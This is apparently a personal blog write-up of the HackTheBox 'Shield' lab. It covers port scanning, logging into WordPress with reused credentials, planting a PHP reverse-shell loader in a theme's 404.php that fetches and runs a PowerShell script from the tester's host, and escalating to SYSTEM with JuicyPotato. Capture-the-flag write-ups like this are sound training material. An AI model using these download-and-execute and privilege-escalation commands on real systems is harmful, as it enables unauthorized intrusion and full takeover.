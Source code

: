 ```yaml
---
weight: 1
title: "HackTheBox - Shield Writeup"
date: 2021-07-21
draft: false
author: "SH∆FIQ ∆IM∆N"
authorLink: "https://shafiqaiman.com"
images: []
resources:
- name: "featured-image"
  src: "featured.png"

tags: ["juicy-potato", "seImpersonatePrivilege", "wordpress", "reverse-powershell"]
categories: ["HacktheBox"]

lightgallery: true
toc:
  auto: false
---
```


## Enumeration

- scan top 1000 ports
- the result

```bash
nmap -sC -sV -oN nmap/initial 10.10.10.29
```
![nmap initial scan](1.png "nmap initial scan")

- scan all ports
- the result

```bash
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.29
```

![nmap allports scan](2.png "nmap allports scan")

- all scan still the same
- open ports
	- 80 / http
	- 3306 / mysql

## WebPage

- Just default windows server page

![IIS default page](3.png "IIS default page")

### Gobuster

- Using gobuster to find any hidden directory
- the result

![gobuster](4.png "gobuster")

### WordPress

- the result show this server have `wordpress` install
- as we know, the wordpress login path is `/wp-admin`
- let's take a look

### Admin Login

- Try to login as admin with credentials from previous box `vaccine`
- Success

![wordpress admin](7.png "wordpress admin")

## Foothold/Gaining Access

### WordPress Theme Injection
- Let's try get the reverse shell by injected the theme
- I'm gonna use this theme "GutenBooster" 
  - and the shell I'm gonna use [Nishang](https://github.com/samratashok/nishang)
- Now, I'm gonna put command in the `404.php`. 
- Which is a 404 template
- Source
  - [Wordpress: Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/)

```php
<?php
exec('powershell IEX(IWR http://10.10.16.13:8000/rev.ps1 -UseBasicParsing)')
?>
```

- This command will download the reverse shell and execute it

![get shell](8.png "get shell")

- Well, the reverse shell is succefully execute 

### SeImpersonatePrivilege

- everytime you've got `powershell reverse shell`
- make sure to run
  - `whoami /all`

- The result

![SeImpersonatePrivilege token](9.png "SeImpersonatePrivilege token")

- Looks like `SeImpersonatePrivilege is enable `
- We can privesc by using `juicy potato`
- Source
  - [JuicyPotato - Github](https://github.com/ohpe/juicy-potato)
- download the binary into `local machine`. Then, upload into `victim machine`
- via this command
```powershell
IWR http://10.10.16.34:8000/JuicyPotato.exe -outfile again_gimme.exe
```

- then run the binary.
- the result

![juicy potato](12.png "juicy potato")

## Privilege Escalation

- First, I'm gonna make `bat` file with powershell command on it.
- I'm called the file `yo_my.bat`
- the command:
- Source
  - [IppSec - Making bat file](https://youtu.be/1ae64CdwLHE?t=2563)

```powershell
powershell "(IEX(IWR http://10.10.16.34:8000/rev.ps1 -UseBasicParsing))"
```

### POTATO

- I'm gonna run `again_gimme.exe` again with this flag:
  - `./again_gimme.exe -t * -p yo_my.bat -l 9902`

- the result

![juicy potato failed](13.png "juicy potato failed")

- it is failed but we can try with more `CLSID`
- Source
  - [IppSec - JuicyPotato fails with the default CLSID, changing it up to get it working.](https://youtube.com/watch?v=1ae64CdwLHE&t=2675)
  - [Windows CLSID](http://ohpe.it/juicy-potato/CLSID/)
- before we start using the CLSID. We're need to know what type of `OS version` this machine running on
- by using this command:
- `(Get-WmiObject Win32_OperatingSystem).Caption`
- the result

![check OS version](14.png "check OS version")

- Now, we're need to pick [Windows Server 2016 Standard CLSID](http://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard/) 
- I'm gonna try with `wpnservice CLSID`
- I'm gonna run this command

```powershell
.\again_gimme.exe -t * -p yo_my.bat -l 9902 -c '{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}'
```

{{< admonition warning "Note" >}}
Make sure you're running the `nc` for listening the connection </br>
**REMEMBER**: The powershell command in the `bat file` was downloading another reverse shell file called `rev.ps1`.
in that file. I'm listening on 9901. If you listen on the other port. Just change the port on that file.
{{< /admonition >}}


- the result

![shell as nt authority\system](15.png "shell as nt authority\system")

- we've got the root flag

![root flag](16.png "root flag")

## Conclusion
I've learned a lot today. Do not put any credentials on the exposure machine to the hacker or non-secure machine. Even tho it's happened, quickly change the password. I'm also introducing a bunch of tools for windows pentest/hack. Lastly, always update and patch the machine.

I have a fun time doing this machine and I hope you guys do too. Bye ;)